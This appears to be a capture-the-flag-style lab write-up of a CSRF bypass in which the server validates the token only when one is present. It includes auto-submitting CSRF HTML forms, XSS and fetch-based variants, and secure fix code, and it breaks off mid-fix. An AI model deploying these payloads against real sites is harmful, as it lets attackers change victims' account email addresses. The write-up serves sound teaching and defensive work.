

---

**Difficulty:** 🟡 Practitioner

**Goal:**

- 🔍 Identify CSRF vulnerability with conditional token validation
- 🎯 Understand "token present" validation flaw
- 💡 Discover server skips validation when token is absent
- 🗑️ Remove CSRF token parameter entirely
- 💉 Craft CSRF attack without any token
- 🚀 Use exploit server to deliver attack payload
- 🎪 Auto-submit form to change victim's email
- 🚨 Bypass CSRF protection by omitting token
- 🎉 Complete lab successfully

---

## 🧠 **Concept Recap**

> **CSRF where token validation depends on token being present** is a critical implementation flaw where the application only validates CSRF tokens when they are actually included in the request. If the token parameter is completely omitted, the server skips validation entirely and processes the request as if it were legitimate. This represents a fundamental misunderstanding of CSRF protection where developers implement "if present, then validate" logic instead of "must be present AND valid" logic.

### 📊 **The Vulnerability**

**Normal Request with CSRF Token:**

```HTTP
User changes email with valid token:
         ↓
POST /my-account/change-email HTTP/2
Cookie: session=abc123xyz
Content-Type: application/x-www-form-urlencoded

email=newemail@example.com&csrf=a8f7d9e2c1b4h6j3k5
         ↓
Server receives request
         ↓
Server validation logic:
  1. Check if csrf parameter present: YES ✓
  2. Extract token value: a8f7d9e2c1b4h6j3k5
  3. Verify token matches session: VALID ✓
  4. Token validation passed ✓
         ↓
Email changed successfully! ✓
         ↓
CSRF protection working! 🛡️
```

**Attempting Invalid Token (REJECTED):**

```HTTP
Attacker tries with invalid token:
         ↓
POST /my-account/change-email HTTP/2
Cookie: session=victim_session
Content-Type: application/x-www-form-urlencoded

email=attacker@evil.com&csrf=INVALID_TOKEN
         ↓
Server validation logic:
  1. Check if csrf parameter present: YES ✓
  2. Extract token value: INVALID_TOKEN
  3. Verify token matches session: INVALID ❌
  4. Token validation failed! ❌
         ↓
Error: "Invalid CSRF token"
         ↓
Request rejected! ✓
         ↓
CSRF protection working! 🛡️
```

**Successful Bypass by Omitting Token:**

```HTTP
Attacker removes token parameter entirely:
         ↓
POST /my-account/change-email HTTP/2
Cookie: session=victim_session
Content-Type: application/x-www-form-urlencoded

email=attacker@evil.com
         ↓
Server validation logic:
  1. Check if csrf parameter present: NO ❌
  2. Token is not present...
  3. Skip validation! 💣
  4. Proceed directly to email update!
         ↓
No validation performed! ⚠️
         ↓
Email changed to attacker@evil.com! 💥
         ↓
CSRF protection BYPASSED! 🎯
```

**Key Insight:**

```r
Why this vulnerability exists:

1. Flawed validation logic:
   └── Developer implements:
       if (csrf_token_present) {
           validate_token();  // Only validates if present
       }
       // Process request regardless!
       
   └── Should implement:
       if (!csrf_token_present || !validate_token()) {
           reject_request();  // Require token AND validation
       }

2. The dangerous assumption:
   └── Developer thinks: "If token is there, validate it"
       └── Forgets: "Token must ALWAYS be there!"
           └── Result: Omitting token = bypassing validation! 💣

3. Common coding patterns that cause this:
   
   Pattern A - Optional validation:
   if (isset($_POST['csrf'])) {
       validateCSRF($_POST['csrf']);
   }
   updateEmail($_POST['email']);  // Runs regardless!
   
   Pattern B - Checking for emptiness:
   if (!empty($csrf_token)) {
       if (!validateCSRF($csrf_token)) {
           die('Invalid token');
       }
   }
   // Empty token = no validation!
   
   Pattern C - Null/undefined checks:
   if (request.csrf !== null) {
       validateToken(request.csrf);
   }
   // Null token bypasses validation!

4. Why developers make this mistake:
   ├── Defensive programming mindset
   │   └── "Don't process null values"
   │       └── "Check if exists before using"
   │           └── But forgot security requirement!
   │
   ├── Copy-paste from examples
   │   └── Sample code checked for presence
   │       └── Didn't enforce requirement
   │
   └── Incomplete understanding
       └── "Add CSRF protection" ✓
           └── "Make it validate tokens" ✓
               └── "Make it REQUIRE tokens" ❌ MISSED!

5. The security logic failure:
   
   What developer implemented:
   ├── Step 1: If token present → Validate it ✓
   └── Step 2: If validation fails → Reject ✓
   
   What developer forgot:
   └── Step 0: Token MUST be present! ❌
   
   Result:
   └── Valid token: Accepted ✓
   └── Invalid token: Rejected ✓
   └── No token: Accepted! 💣 ← VULNERABILITY!

6. Attack simplification:
   └── Attacker doesn't need to:
       ├── Steal valid token
       ├── Guess token value
       ├── Replay old token
       └── Use any token at all!
   
   └── Attacker just needs to:
       └── Remove csrf parameter completely! ✓
           └── Simplest bypass possible! 🎯

The vulnerability chain:
└── Server has CSRF protection implemented
    └── Token validation logic exists
        └── Validation only runs IF token present
            └── Attacker omits token parameter
                └── Validation is skipped entirely
                    └── Request processed without any CSRF check! 💣

Real-world developer thought process:
└── "I need to validate CSRF tokens"
    └── "If there's a token, I'll validate it"
        └── "If validation fails, I'll reject it"
            └── "Done! Secure!" ✓
                └── Never tested without token! ❌
                    └── Vulnerability introduced! ⚠️

The irony:
└── CSRF protection is implemented ✓
    └── Token generation works ✓
        └── Token validation works ✓
            └── But protection can be completely bypassed! 💣
                └── By simply not using the protection!
```

---
---

## 🛠️ **Step-by-Step Attack**

---

### 🔧 **Step 1 — Access Lab**

1. 🌐 Click **"Access the lab"**
2. 👀 Observe the lab page
3. 📝 Note credentials: `wiener:peter`

**Lab description:**

```
Lab: CSRF where token validation depends on token being present

Vulnerability:
└── Email change functionality has CSRF protection
    └── But only validates token when present
        └── Can be bypassed by omitting token! 💣

Goal:
└── Use exploit server to host CSRF attack
    └── Change victim's email address
        └── Without including CSRF token! 🎯
```

---

### 🔐 **Step 2 — Login to Account**

1. 🖱️ Click **"My account"**
2. 📝 Enter credentials:
    - Username: `wiener`
    - Password: `peter`
3. 🚀 Click **"Login"**

**After login:**

```
┌────────────────────────────────────┐
│ My Account                         │
├────────────────────────────────────┤
│                                    │
│ Username: wiener                   │
│                                    │
│ Email: wiener@normal-user.net      │
│                                    │
│ Update email:                      │
│ [____________________________]     │
│                                    │
│ [Update email]                     │
│                                    │
└────────────────────────────────────┘
```

---

### 🔍 **Step 3 — Setup Burp Suite**

1. 🌐 Open Burp Suite
2. ⚙️ Ensure proxy is configured
3. 🔄 Turn **Intercept ON**

**Burp Proxy tab:**

```
┌────────────────────────────────────┐
│ Burp Suite                         │
├────────────────────────────────────┤
│ Proxy │ Intruder │ Repeater │...   │
├────────────────────────────────────┤
│                                    │
│ Intercept: [ON]  [Forward]  [Drop] │
│                                    │
└────────────────────────────────────┘
```

---

### 📨 **Step 4 — Capture Email Change Request**

1. 🌐 Go to My Account page
2. ✏️ Enter test email: `test@example.com`
3. 🚀 Click **"Update email"**
4. 👀 Burp intercepts the request

**Intercepted POST request:**

```HTTP
POST /my-account/change-email HTTP/2
Host: 0a7d00b7048bc67dc0c914e200d800f3.web-security-academy.net
Cookie: session=Ry8TnP4fK2mZ9vL3jX6qB1cW7dH5gA0s
User-Agent: Mozilla/5.0...
Content-Type: application/x-www-form-urlencoded
Content-Length: 68

email=test%40example.com&csrf=M3jQ9rL5pY8nD2vH6cX1wS7gB4zA0tK3
```

**Analysis:**

```HTTP
Key observations:

1. Method: POST ✓
   └── Standard for state-changing operations

2. Endpoint: /my-account/change-email
   └── Target for our attack

3. Cookie: session=Ry8TnP4fK2mZ9vL3jX6qB1cW7dH5gA0s
   └── Session authentication
   └── Automatically included by browser

4. Parameters in body:
   ├── email=test%40example.com
   │   └── Email we want to change to
   │
   └── csrf=M3jQ9rL5pY8nD2vH6cX1wS7gB4zA0tK3
       └── CSRF token present! ✓
       └── Appears to provide CSRF protection
       └── But does it REQUIRE the token? 🤔

What we need to test:
├── Does invalid token get rejected? (Should be YES)
└── Does missing token get rejected? (Should be YES)
    └── If NO → Vulnerability! 💣
```

---

### 🔄 **Step 5 — Send to Burp Repeater**

1. 🖱️ **Right-click** on the intercepted request
2. 📋 Select **"Send to Repeater"**
3. 🔄 Click **"Forward"** to let original request through
4. 🔄 Turn **Intercept OFF**
5. 📑 Switch to **"Repeater"** tab

**Burp Repeater:**

```
┌────────────────────────────────────────────────────────┐
│ Repeater                                               │
├────────────────────────────────────────────────────────┤
│ Request:                          Response:            │
│ ┌──────────────────────────┐     ┌──────────────────┐  │
│ │ POST /my-account/        │     │                  │  │
│ │ change-email HTTP/2      │     │                  │  │
│ │                          │     │                  │  │
│ │ email=test@example.com&  │     │                  │  │
│ │ csrf=M3jQ9rL5pY8n...     │     │                  │  │
│ └──────────────────────────┘     └──────────────────┘  │
│                                                        │
│ [Send]                                                 │
└────────────────────────────────────────────────────────┘
```

---

### 🧪 **Step 6 — Test Valid CSRF Token**

**Baseline test:**

1. 🚀 Click **"Send"** in Repeater with original request
2. 👀 Observe response

**Expected response:**

```HTTP
HTTP/2 302 Found
Location: /my-account

Email updated successfully!
```

**Confirmation:**

```
✅ Request with valid CSRF token works
✅ Email change successful
✅ This is expected behavior
```

---

### ❌ **Step 7 — Test Invalid CSRF Token**

**Test if validation actually works:**

1. ✏️ Modify the CSRF token value to something invalid:

```HTTP
BEFORE:
email=test%40example.com&csrf=M3jQ9rL5pY8nD2vH6cX1wS7gB4zA0tK3

         ↓ Change token value ↓

AFTER:
email=test%40example.com&csrf=INVALID_TOKEN_12345
```

2. 🚀 Click **"Send"**
3. 👀 Observe response

**Expected response:**

```HTTP
HTTP/2 400 Bad Request

Invalid CSRF token
```

**Confirmation:**

```
✅ Invalid CSRF token is rejected!
✅ Validation is working when token is present
✅ Server does validate the token value
💡 But what happens if token is missing entirely?
```

---

### 💣 **Step 8 — Delete CSRF Parameter Entirely**

**This is the critical test!**

1. ✏️ Remove the entire `&csrf=...` parameter:

```HTTP
BEFORE:
email=test2%40example.com&csrf=M3jQ9rL5pY8nD2vH6cX1wS7gB4zA0tK3

         ↓ Delete &csrf=... completely ↓

AFTER:
email=test2%40example.com
```

**Full request after removal:**

```HTTP
POST /my-account/change-email HTTP/2
Host: 0a7d00b7048bc67dc0c914e200d800f3.web-security-academy.net
Cookie: session=Ry8TnP4fK2mZ9vL3jX6qB1cW7dH5gA0s
Content-Type: application/x-www-form-urlencoded
Content-Length: 29

email=test2%40example.com
```

2. 🚀 Click **"Send"**
3. 👀 Observe response carefully

**Expected response:**

```HTTP
HTTP/2 302 Found
Location: /my-account

Email updated successfully!
```

**VULNERABILITY CONFIRMED!**

```
🎯 Critical Discovery:

✅ Request without CSRF token = ACCEPTED!
✅ Email changed successfully!
❌ No CSRF token validation when token is absent!

The vulnerability:
└── Server validates CSRF token IF present ✓
    └── But does NOT require token to be present! ❌
        └── We can bypass CSRF protection
            └── By simply omitting the token parameter! 💣

Server-side vulnerable logic:
if (isset($_POST['csrf'])) {
    // Token is present, validate it
    if (!validateCSRFToken($_POST['csrf'])) {
        die('Invalid CSRF token');
    }
}
// Token not present? No validation!
// Process request anyway! 💣
updateEmail($_POST['email']);

Comparison of test results:
├── Valid token: ACCEPTED ✓ (Expected)
├── Invalid token: REJECTED ✓ (Expected)
└── No token: ACCEPTED 💣 (VULNERABILITY!)

This is the vulnerability we'll exploit! 🎯
```

---

### 📝 **Step 9 — Document Working Exploit**

**Successful bypass request:**

```HTTP
POST /my-account/change-email HTTP/2
Host: 0a7d00b7048bc67dc0c914e200d800f3.web-security-academy.net
Cookie: session=VICTIM_SESSION
Content-Type: application/x-www-form-urlencoded

email=attacker@evil.com
```

**Key points:**

```
Exploit requirements:
├── Method: POST
├── Endpoint: /my-account/change-email
├── Parameter: email=attacker@evil.com
└── NO csrf parameter! ✓

What's missing (and that's the point):
❌ NO csrf token parameter
❌ NO csrf token value
❌ NO token at all!

This makes the attack simpler:
└── Don't need to steal token
└── Don't need to guess token
└── Don't need any token at all!
└── Just omit it completely! ✓
```

---

### 🎨 **Step 10 — Generate CSRF PoC**

**Method A: Using Burp Professional**

1. 🖱️ Right-click on the request (without csrf parameter)
2. 📋 Select **"Engagement tools → Generate CSRF PoC"**
3. ✅ Check **"Include auto-submit script"**
4. 🔄 Click **"Regenerate"**

**Burp generates:**

```html
<html>
  <body>
    <form action="https://0a7d00b7048bc67dc0c914e200d800f3.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="test@example.com" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

**Note:** No csrf parameter in the form! ✓

5. 📋 Click **"Copy HTML"**

---

**Method B: Manual HTML Creation**

```html
<form method="POST" action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="attacker@evil.com">
</form>
<script>
    document.forms[0].submit();
</script>
```

**Critical notes:**

```
What's in the form:
✓ method="POST" (matches original request)
✓ action="..." (target endpoint)
✓ email parameter (the new email)

What's NOT in the form:
❌ NO csrf parameter!
❌ NO csrf hidden input!
❌ NO token at all!

Why this works:
└── Server only validates token IF present
    └── No token present = no validation
        └── Request accepted without any CSRF check! 💣

Comparison with previous labs:
├── No defenses lab: No CSRF token at all
├── Method bypass lab: Change POST to GET
└── This lab: Simply omit the token parameter! ✓
    └── Simplest bypass yet!
```

---

### 🌐 **Step 11 — Access Exploit Server**

1. 🔙 Go back to lab page
2. 🖱️ Click **"Go to exploit server"**

**Exploit server interface:**

```
┌────────────────────────────────────────────────────────┐
│ Exploit Server                                         │
├────────────────────────────────────────────────────────┤
│                                                        │
│ Response headers:                                      │
│ HTTP/1.1 200 OK                                        │
│ Content-Type: text/html; charset=utf-8                 │
│                                                        │
│ Body:                                                  │
│ [______________________________________]               │
│ [______________________________________]               │
│                                                        │
│ [Store] [View exploit] [Deliver exploit to victim]     │
└────────────────────────────────────────────────────────┘
```

---

### 📝 **Step 12 — Create Exploit HTML**

**Paste into Body field:**

```html
<form method="POST" action="https://0a7d00b7048bc67dc0c914e200d800f3.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="test123@test.com">
</form>
<script>
    document.forms[0].submit();
</script>
```

**Replace:**

- `0a7d00b7048bc67dc0c914e200d800f3` with YOUR lab ID
- `test123@test.com` with your test email

**Understanding the exploit:**

```html
<form method="POST" action="https://[LAB-ID].web-security-academy.net/my-account/change-email">
    
    Form attributes:
    ├── method="POST" → Matches server expectation
    ├── action="..." → Target endpoint
    └── No csrf input → Intentionally omitted! ✓
    
    <input type="hidden" name="email" value="test123@test.com">
    
    Email parameter:
    ├── type="hidden" → Invisible to user
    ├── name="email" → Required parameter
    └── value="..." → Attacker's chosen email
    
</form>

<script>
    document.forms[0].submit();
</script>

Auto-submit:
├── Selects first form on page
├── Submits immediately when page loads
└── No user interaction needed!

When form submits:
POST /my-account/change-email
Cookie: session=VICTIM_SESSION_COOKIE (automatic!)
Content-Type: application/x-www-form-urlencoded

email=test123@test.com
↑
No csrf parameter! 💣

Server receives:
├── Valid session cookie ✓
├── Email parameter ✓
├── No CSRF token ❌
├── Server checks: is csrf parameter present? NO
├── Server skips validation! 💣
└── Email changed! 💥
```

---

### 💾 **Step 13 — Store and Test Exploit**

1. 💾 Click **"Store"**
2. 👁️ Click **"View exploit"**

**What happens:**

```
Exploit page loads
         ↓
Browser parses HTML
         ↓
Form element created (no csrf input)
         ↓
JavaScript executes
         ↓
form.submit() called
         ↓
Browser sends POST request:
  POST /my-account/change-email
  Cookie: session=YOUR_SESSION
  
  email=test123@test.com
         ↓
Server receives request
         ↓
Server checks: csrf parameter present?
  Answer: NO
         ↓
Server logic: if (csrf present) { validate }
  csrf not present → skip validation! 💣
         ↓
Email updated to test123@test.com ✓
         ↓
Redirected to My Account page
```

**Verification:**

```
Check My Account page:
┌────────────────────────────────────┐
│ My Account                         │
├────────────────────────────────────┤
│                                    │
│ Username: wiener                   │
│                                    │
│ Email: test123@test.com ← Changed! │
│                                    │
└────────────────────────────────────┘

✅ Email changed successfully!
✅ Exploit works without CSRF token!
✅ Bypass confirmed!
💡 Ready for victim delivery!
```

---

### 🔄 **Step 14 — Update Email for Victim**

**Important:** Use different email!

1. 🔙 Go back to exploit server
2. ✏️ Change email value:

```html
<form method="POST" action="https://0a7d00b7048bc67dc0c914e200d800f3.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="hacker@evil.com">
</form>
<script>
    document.forms[0].submit();
</script>
```

3. 💾 Click **"Store"**

**Why different email:**

```
Problem:
└── Already changed your email to test123@test.com
    └── Email is now "taken" by your account
        └── Victim cannot use same email

Solution:
└── Use unique email for victim
    ├── hacker@evil.com
    ├── pwned@attacker.com
    └── Or any other unused email

This ensures victim's email change succeeds! ✓
```

---

### 🎯 **Step 15 — Deliver Exploit to Victim**

1. 🚀 Click **"Deliver exploit to victim"**
2. ⏳ Wait for confirmation

**Attack execution:**

```HTTP
Lab simulation starts:
         ↓
1. Simulated victim (Carlos) is logged in
   └── Has valid session cookie
   
2. Victim visits your exploit URL
   └── https://exploit-XXXXX.exploit-server.net/
   
3. Exploit page loads in victim's browser
   └── Form element created (no csrf parameter)
   
4. Auto-submit script executes
   └── document.forms[0].submit()
   
5. Browser sends POST request:
   POST /my-account/change-email HTTP/2
   Host: 0a7d00b7048bc67dc0c914e200d800f3.web-security-academy.net
   Cookie: session=VICTIM_SESSION_COOKIE_HERE
          ↑
   Automatically included! 💣
   
   email=hacker@evil.com
   ↑
   No csrf parameter! ✓
   
6. Server receives request:
   ├── Check if csrf parameter exists: NO
   ├── csrf not present → Skip validation! 💣
   ├── Session cookie valid: YES ✓
   └── Process email change: YES ✓
   
7. Victim's email changed:
   └── FROM: carlos@...
   └── TO: hacker@evil.com
   
8. Lab validation:
   └── Checks victim's email was changed
   └── Confirms exploit succeeded
   └── Lab solved! 🎉
```

---

### ✅ **Step 16 — Lab Completion**

**Success banner:**

```
┌─────────────────────────────────────┐
│  ✅ Congratulations!                │
│                                     │
│  You successfully exploited a       │
│  CSRF vulnerability by bypassing    │
│  conditional token validation.      │
│                                     │
│  Lab: CSRF where token validation   │
│       depends on token being        │
│       present                       │
│  Status: SOLVED ✓                   │
└─────────────────────────────────────┘
```

---

## 🔗 **Complete Attack Chain**

```r
Step 1: Access lab and login
         → wiener:peter
         ↓
Step 2: Navigate to My Account
         → Observe email change form
         ↓
Step 3: Setup Burp Suite
         → Intercept traffic
         ↓
Step 4: Capture POST email change request
         → POST /my-account/change-email
         → email=test@example.com&csrf=TOKEN
         ↓
Step 5: Send to Repeater
         ↓
Step 6: Test with valid token
         → Request accepted ✓
         → Normal behavior
         ↓
Step 7: Test with invalid token
         → Change csrf value to invalid
         → Request rejected ✓
         → Validation working when token present
         ↓
Step 8: Delete csrf parameter entirely
         → Remove &csrf=... completely
         → Send request
         → Request ACCEPTED! 💥
         ↓
Step 9: Vulnerability confirmed!
         → Server only validates IF token present ❌
         → Missing token = no validation! 💣
         ↓
Step 10: Generate CSRF PoC
         → Form with POST method
         → Email parameter only
         → NO csrf parameter! ✓
         → Auto-submit script
         ↓
Step 11: Upload to exploit server
         → Paste HTML in Body
         → Store exploit
         ↓
Step 12: Test on yourself
         → View exploit
         → Form submits without csrf
         → Email changed ✓
         ↓
Step 13: Update email for victim
         → Use different unused email
         → Store again
         ↓
Step 14: Deliver to victim
         → Click "Deliver exploit to victim"
         → POST sent without csrf parameter
         → No validation performed
         → Email changed! 💥
         ↓
Step 15: Lab solved! 🎉
```

---

## ⚙️ **Understanding the Vulnerability**

### **Conditional Validation Flaw**

```r
The vulnerable server-side code:

// ❌ VULNERABLE - Only validates if present

function handleEmailChange(request) {
    // Check if CSRF token parameter exists
    if (request.csrf !== undefined && request.csrf !== null) {
        // Token is present, validate it
        if (!validateCSRFToken(request.csrf, request.session)) {
            return error('Invalid CSRF token');
        }
    }
    // If token not present, skip validation entirely!
    
    // Process email change regardless
    var newEmail = request.email;
    updateUserEmail(currentUser, newEmail);
    return success('Email updated');
}

The logic flaw:
├── IF token present → Validate it ✓
├── IF validation fails → Reject request ✓
└── IF token absent → NO validation! ❌ ← VULNERABILITY!

What should be:
function handleEmailChange(request) {
    // REQUIRE token to be present
    if (!request.csrf) {
        return error('CSRF token required');
    }
    
    // Validate the required token
    if (!validateCSRFToken(request.csrf, request.session)) {
        return error('Invalid CSRF token');
    }
    
    // Only proceed if token present AND valid
    updateUserEmail(currentUser, request.email);
    return success('Email updated');
}

Correct logic:
├── Token MUST be present ✓
├── Token MUST be valid ✓
└── Both conditions enforced! ✓
```

---

### **Common Vulnerable Code Patterns**

```r
// ❌ PATTERN 1: isset() check only validates if present
if (isset($_POST['csrf'])) {
    if (!validateCSRF($_POST['csrf'])) {
        die('Invalid CSRF token');
    }
}
updateEmail($_POST['email']);  // Runs even without token!

// ❌ PATTERN 2: !empty() allows missing parameter
if (!empty($_POST['csrf'])) {
    validateCSRF($_POST['csrf']);
}
// Empty/missing token bypasses validation!

// ❌ PATTERN 3: Checking for null/undefined
$csrf_token = $_POST['csrf'] ?? null;
if ($csrf_token !== null) {
    validateCSRF($csrf_token);
}
// Null token skips validation!

// ❌ PATTERN 4: Try-catch swallowing errors
try {
    if (isset($csrf)) {
        validateCSRF($csrf);
    }
} catch (Exception $e) {
    // Silently fail, continue anyway
}

// ❌ PATTERN 5: JavaScript frameworks
// Client-side only checks
if (request.body.csrf) {
    validateToken(request.body.csrf);
}
// Attacker bypasses client-side, omits parameter

Why these patterns exist:
├── Defensive programming: "Check before using"
├── Null safety: "Don't process undefined values"
├── Copy-paste: "Sample code did it this way"
└── Misunderstanding: "Validation = checking if valid"
    └── Forgot: "Also must check if present!" ❌
```

---

### **The Psychology of the Bug**

```r
Why developers make this mistake:

1. Focus on the "happy path":
   └── Developer tests:
       ├── Valid token → Works ✓
       ├── Invalid token → Rejected ✓
       └── Never tests: No token ❌
   
   └── Assumes: "Users will always provide token"
       └── Forgets: "Attackers won't!" 💣

2. Defensive programming mindset:
   └── General coding practice:
       "Check if variable exists before using it"
       
       if (user.name) {
           console.log(user.name);  // Safe
       }
       
   └── Applied to security:
       if (csrf_token) {
           validate(csrf_token);  // Seems safe...
       }
       
   └── But security requires:
       "Variable MUST exist AND be valid!"
       
       if (!csrf_token || !validate(csrf_token)) {
           reject();  // Correct!
       }

3. Incomplete test coverage:
   └── Tests written:
       ✓ Valid token accepted
       ✓ Invalid token rejected
   
   └── Test forgotten:
       ❌ Missing token rejected
   
   └── Result: Vulnerability in production!

4. Copy-paste from examples:
   └── Tutorial shows:
       if (token) { validate(token); }
   
   └── Developer copies without understanding
       └── Never questions: "What if no token?"
           └── Vulnerability introduced!

5. Incremental security addition:
   └── Original code: No CSRF protection
       updateEmail(email);
   
   └── Adding protection (wrong way):
       if (csrf) { validate(csrf); }  // Added check
       updateEmail(email);  // Original line unchanged
   
   └── Should be (right way):
       if (!csrf || !validate(csrf)) {
           reject();
       }
       updateEmail(email);

6. Framework misuse:
   └── Framework provides: @csrf_protect decorator
   └── Developer thinks: "Just check token"
       └── Forgets: "Decorator also requires token!"
           └── Manual implementation misses requirement!
```

---

### **Comparison: Three Validation States**

```r
Testing different token states:

State 1: Valid CSRF Token
├── Request: email=test&csrf=VALID_TOKEN_123
├── Server: Token present? YES
├── Server: Token valid? YES
└── Result: ACCEPTED ✓ (Expected)

State 2: Invalid CSRF Token
├── Request: email=test&csrf=INVALID_TOKEN
├── Server: Token present? YES
├── Server: Token valid? NO
└── Result: REJECTED ✓ (Expected)

State 3: No CSRF Token
├── Request: email=test (no csrf parameter)
├── Server: Token present? NO
├── Server: Validation skipped! 💣
└── Result: ACCEPTED ❌ (VULNERABILITY!)

The matrix:
┌─────────────────┬──────────┬──────────┐
│                 │ Present  │ Absent   │
├─────────────────┼──────────┼──────────┤
│ Valid Value     │ Accept ✓ │ N/A      │
│ Invalid Value   │ Reject ✓ │ N/A      │
│ No Value        │ N/A      │ Accept ❌│ ← VULNERABILITY!
└─────────────────┴──────────┴──────────┘

Secure system should:
└── Reject anything except "Present AND Valid" ✓
```

---

## 🚀 **Attack Variations**

### **Variation 1: GET Method Attack**

**If endpoint also accepts GET:**

```r
<!-- Even simpler attack -->


How it works:
├── Browser loads image
├── Sends GET request
├── No POST body = no csrf parameter possible
├── Server accepts GET without token
└── Email changed! 💥

Benefits:
├── No form needed
├── No JavaScript needed
├── Completely invisible
├── Can be embedded anywhere
└── Simplest attack possible! 🎯
```

---

### **Variation 2: Form Without JavaScript**

**User-triggered attack:**

```r
<form method="POST" action="https://vulnerable.com/change-email">
    <input type="hidden" name="email" value="attacker@evil.com">
    <button type="submit">Click here to claim your prize!</button>
</form>

Social engineering:
├── Disguised submit button
├── User clicks voluntarily
├── Form submits without csrf
└── Email changed!

No auto-submit needed:
└── User interaction is the trigger
    └── Still no CSRF token required! ✓
```

---

### **Variation 3: Multiple Parameter Testing**

**Test which parameters are required:**

```r
Original request:
email=test@test.com&csrf=TOKEN123&otherparam=value

Test 1: Remove csrf only
email=test@test.com&otherparam=value
Result: Accepted? → csrf not required! 💣

Test 2: Remove otherparam only
email=test@test.com&csrf=TOKEN123
Result: Rejected? → otherparam is required

Test 3: Keep only email
email=test@test.com
Result: Accepted? → Only email required!

Find minimal required parameters:
└── Simplify exploit to bare minimum ✓
```

---

### **Variation 4: Null vs Empty vs Missing**

**Test different "absence" types:**

```r
Test A: Empty string
email=test@test.com&csrf=

Test B: Explicit null
email=test@test.com&csrf=null

Test C: Undefined
email=test@test.com&csrf=undefined

Test D: Completely missing
email=test@test.com

Each might behave differently:
└── Some servers treat empty ≠ missing
    └── Test all variations! 🧪
```

---

### **Variation 5: Parameter Pollution**

**Send multiple csrf parameters:**

```r
email=test@test.com&csrf=INVALID&csrf=

Some servers:
├── Use first parameter: INVALID → Rejected
├── Use last parameter: (empty) → Bypass?
└── Concatenate both: INVALID → Rejected

Or omit all but one:
email=test@test.com&csrf=

Edge cases worth testing! 🎯
```

---

### **Variation 6: Case Sensitivity Test**

**Try different parameter names:**

```r
Original:
csrf=TOKEN

Test variations:
CSRF=TOKEN
Csrf=TOKEN
csrF=TOKEN

If server uses case-insensitive lookup:
└── Might bypass validation logic! 💣

Then omit the working one:
└── Remove CSRF= parameter
    └── See if bypasses! ✓
```

---

### **Variation 7: Combined with XSS**

**If XSS exists, steal lack of requirement:**

```r
<!-- Malicious page with XSS -->
<script>
// If victim visits with XSS
// Use XSS to submit form without csrf

var form = document.createElement('form');
form.method = 'POST';
form.action = 'https://vulnerable.com/change-email';

var email = document.createElement('input');
email.name = 'email';
email.value = 'attacker@evil.com';
// No csrf input! ✓

form.appendChild(email);
document.body.appendChild(form);
form.submit();
</script>

XSS + CSRF bypass = Complete compromise! 💣
```

---

### **Variation 8: API Endpoint Testing**

**Test API endpoints separately:**

```r
// Web form: /my-account/change-email
// Might validate csrf

// API endpoint: /api/user/email
// Might not validate csrf!

fetch('/api/user/email', {
    method: 'POST',
    headers: {
        'Content-Type': 'application/json'
    },
    credentials: 'include',
    body: JSON.stringify({
        email: 'attacker@evil.com'
        // No csrf token!
    })
});

Different endpoints, different validation:
└── Test all state-changing endpoints! 🎯
```

---
---

## 🛡️ **How to Fix (Secure Code)**

### **Fix 1: Always Require Token**

```r
// ✅ SECURE - Token MUST be present

function handleEmailChange($request) {
    // REQUIRE token to exist
    if (!isset($request['csrf']) || empty($request['csrf'])) {
        http_response_code(403);
        die('CSRF token is required');
    }
    
    // Validate the required token
    if (!validateCSRFToken($request['csrf'], $_SESSION['csrf_token'])) {
        http_response_code(403);
        die('Invalid CSRF token');
    }
    
    // Only process if both checks pass
    updateEmail($request['email']);
    return success('Email updated');
}

Key improvements:
✅ Check token exists first
✅ Validate token second
✅ Both are required
✅ No way to bypass
```

---

### **Fix 2: Fail-Secure Approach**

```r
// ✅ SECURE - Default deny

app.post('/change-email', (req, res) => {
    const csrfToken = req.body.csrf;
    
    // Default: reject request
    let isValid = false;
    
    // Only set to true if all checks pass
    if (csrfToken) {
        if (validateCSRFToken(csrfToken, req.session.csrf)) {
            isValid = true;
        }
    }
    
    // Reject unless explicitly validated
    if (!isValid) {
        return res.status(403).send('CSRF validation failed');
    }
    
    // Only reachable if validated
    updateEmail(req.body.email);
    res.redirect('/account');
});

Benefits:
✅ Default deny (fail-secure)
✅ Must explicitly pass validation
✅ Missing token = rejected
✅ Invalid token = rejected
```

---

### **Fix 3: Use Framework Middleware**

```r
# ✅ SECURE - Framework enforcement

# Django example
from django.views.decorators.csrf import csrf_protect

@csrf_protect  # Automatically requires AND validates token
def change_email(request):
    if request.method == 'POST':
        # Django already validated CSRF
        # Token MUST be present AND valid
        
        email = request.POST.get('email')
        request.user.email = email
        request.user.save()
        return redirect('account')

# Template automatically includes token:
<form method="POST">
      <!-- Required! -->
    <input type="email" name="email">
    <button type="submit">Update</button>
</form>


# Express.js with csurf middleware
const csrf = require('csurf');
